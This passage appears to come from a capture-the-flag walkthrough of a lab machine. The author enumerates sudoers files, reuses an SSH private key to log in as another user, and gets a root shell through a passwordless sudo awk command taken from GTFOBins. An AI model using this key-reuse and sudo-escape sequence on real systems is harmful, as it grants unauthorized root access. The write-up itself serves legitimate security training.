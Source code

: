 And it says:
```
I GIVE YOU PERMISSION ALREADY... THE "KEY"... YOU KNOW WHAT I MEAN
BECAUSE YOU ARE PENDEKAR! - HANGTUAH
```
And after some time exploring the server, when I check the sudo files in `/etc`:
```shell
pendekar@legacyhangtuah:/home/hangtuah$ ls /etc/sudo* -la
...SNIPPED...
-r--r--r--  1 root root   56 Aug 21  2020 pendekar
...SNIPPED...
```
When I read the `pendekar` file:
```
$ pendekar@legacyhangtuah:/home/hangtuah$ cat /etc/sudoers.d/pendekar
...SNIPPED...
pendekar legacyhang=(hangtuah) NOPASSWD:/usr/bin/reboot
```
But this binary does not exist, and after thinking for several days, and to analyze the meaning of the morse code inside the `lastnote.txt` file, then I notice that maybe the `id_rsa` key can be reused. When I try to use the `ssh` command with the same `id_rsa`. But instead of the user `pendekar`, I use the user `hangtuah`:
```shell
$ ssh -i id_rsa hangtuah@192.168.2.13
```
Then it works, and I start to enumerate the `hangtuah` user.


## Privilege escalation

When I run the `sudo` command:
```shell
$ sudo -l
...SNIPPED...
User hangtuah may run the following commands on legacyhangtuah:
(root) NOPASSWD: /usr/bin/awk
```
Then I can run the `awk` command as root with no password required. When I search for the binary on the [gtfobins awk](https://gtfobins.github.io/gtfobins/awk/) page, and I follow the instructions.

When I use the `awk` command:
```shell
$ sudo awk 'BEGIN {system("/bin/sh")}'
```
Then I get the root shell
